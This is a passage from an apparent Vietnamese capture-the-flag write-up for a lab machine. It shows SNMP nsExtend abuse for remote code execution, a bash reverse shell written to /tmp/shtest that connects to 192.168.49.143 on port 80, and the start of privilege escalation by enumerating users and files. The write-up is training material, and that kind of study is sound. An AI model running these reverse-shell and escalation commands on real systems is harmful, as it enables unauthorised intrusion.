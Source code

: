 Thêm `mibs +ALL` vào `/etc/snmp/snmp.conf`:

![](https://i.imgur.com/uw9aZ3z.png)

Test kết nối với `snmpwalk`:

```shell 
$ snmpwalk -v2c -c 53cur3M0NiT0riNg 192.168.143.113 nsExtendOutput1
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test2" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."test3" = STRING: 
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."test1" = STRING: Hello, world!
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."test2" = STRING: Hello, world!
Hi there
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."test3" = STRING: 
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."test1" = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."test2" = INTEGER: 2
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."test3" = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendResult."test1" = INTEGER: 0
NET-SNMP-EXTEND-MIB::nsExtendResult."test2" = INTEGER: 8960
NET-SNMP-EXTEND-MIB::nsExtendResult."test3" = INTEGER: 32512
```

Như vậy, ta có thể RCE vào máy host bằng `smnpwalk`

Tạo file `/tmp/shtest`:

```shell 
www-data@a7c367c2113d:/$ echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.49.143/80 0>&1"' > /tmp/shtest
www-data@a7c367c2113d:/$ cat /tmp/shtest
/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.49.143/80 0>&1"
```

Và chạy `snmpwalk`:

![](https://i.imgur.com/TOOY7NA.png)

## IV. PrivEsc

### 1. Get real user

Có thể thấy hiện tại ta đang truy cập vào một service user, vì vậy cần phải leo root, hoặc là một user khác, điều này dễ thấy bằng `/etc/passwd`:

```shell 
Debian-snmp@escape:/$ grep -P '/bin/(sh|bash)' /etc/passwd
root:x:0:0:root:/root:/bin/bash
tom:x:1000:1000::/home/tom:/bin/sh
```

Như vậy còn user `tom` nữa.

Thử tìm executable file được sở hữu bởi `tom`:

```shell 
Debian-snmp@escape:/$ find / -type f -executable -user tom 2>/dev/null     
/usr/bin/logconsole
```

